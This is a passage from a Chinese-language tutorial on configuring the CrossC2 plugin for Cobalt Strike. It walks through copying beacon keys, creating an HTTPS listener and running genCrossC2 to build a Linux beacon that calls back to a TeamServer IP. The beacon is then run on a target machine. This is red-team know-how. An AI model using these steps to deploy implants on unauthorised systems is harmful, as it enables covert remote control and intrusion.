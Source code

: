 
找到CrossC2.cna文件，在`src/`目录下，修改该文件中的两项值。

    
    
    $CC2_PATH = "/Users/xxx/Desktop/Tools/cs_plugin/CrossC2/2.2.2/src"; # 这里填src目录的绝对路径  
    $CC2_BIN = "genCrossC2.MacOS"; # 根据系统类型进行配置,对应src目录下的genCrossC2.XXX那三个文件的名字

将TeamServer上的`.cobaltstrike.beacon_keys`文件下回到本地，之后会用上(我这里将文件名前边的点去掉了)。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100030.png)

启动你的TeamServer， **这里先不要带上C2-Profile去启动。  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100031.png)

 ****  

将`CrossC2.cna`文件加载到CobaltStrike中，之后创建`Https`监听器。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100032.png)

生成Beacon，命令如下(如果你是Windows那就是genCrossC2.Win.exe)。

`./genCrossC2.MacOS [TeamServer的IP] [HTTPS监听器端口]
[.cobaltstrike.beacon_keys文件路径] [自定义的动态链接库文件] [运行Beacon的平台] [运行Beacon的平台位数]
[输出的结果文件]`

    
    
    ./genCrossC2.MacOS 192.168.225.24 1443 cobaltstrike.beacon_keys null Linux x64 ./test  
    

将生成的Beacon放到目标机器上去执行即可

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100033.png)

  

此时你的TeamServer即可支持Windows、Linux...

![]()

# 存在的问题

上述操作是未带C2-Profile，实战里相信没有师傅会不带C2-Profile就直接冲吧！

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100034.png)

直接带上C2-Profile，CrossC2所生成的Beacon可能无法上线也可能是上线了执行不了命令（这里可以自己尝试一下）。因此CrossC2提供通信协议API的方式来解决该问题。

# 一些铺垫

在进入正题之前感觉有必要铺垫以下知识点

## 有Profile与无Profile对比
